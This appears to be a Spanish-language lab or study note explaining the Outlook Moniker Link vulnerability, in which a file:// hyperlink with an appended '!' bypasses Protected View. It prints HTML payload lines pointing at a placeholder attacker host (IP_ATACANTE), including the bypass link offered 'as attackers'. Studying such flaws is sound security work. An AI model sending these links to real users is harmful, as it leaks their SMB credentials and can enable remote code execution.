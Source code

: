 Outlook puede renderizar emails como HTML. Además, Outlook puede parsear hiperlinks como HTTP y HTTPS. De cualquier forma, también puede abrir enlaces especificando aplicaciones, conocido como Moniker Links. Normalmente, Outlook lanza un mensaje de riesgo de seguridad cuando se disparan aplicaciones externas.

![[134.jpg]]

Este pop-up es el resultado del modo "Vista Protegida" de Outlook. Este modo abre emails que contienen archivos adjuntos, hiperlinks y demás en modo de sólo lectura, bloqueando cosas como las macros.

Al usar `file://` en el moniker link podemos decirle a Outlook que acceda a un archivo, como uno en la red compartida (`a href="file://IP_ATACANTE/test>Click me</a>`). El protocolo SMB es usado, lo que implica usar credenciales locales para autentificación. Sin embargo, el modo "vista protegida" atrapa y bloquea este intento.

```html
<p><a href="file://IP_ATACANTE/test">Click me</a></p>
```

La vulnerabilidad aquí existe al modificar el hiperenlace para incluir el carácter especial `!`, lo que resulta en el bypass del modo protegido de Outlook.

```html
<p><a href="file://IP_ATACANTE/test!exploit">Click me</a></p>
```

Como atacantes podemos ofrecer este link para el ataque. La compartición no tiene por qué existir en el dispositivo remoto. La ejecución remota de comandos (RCE) es posible porque el Moniker Link usa el modelo de objetos componentes (COM).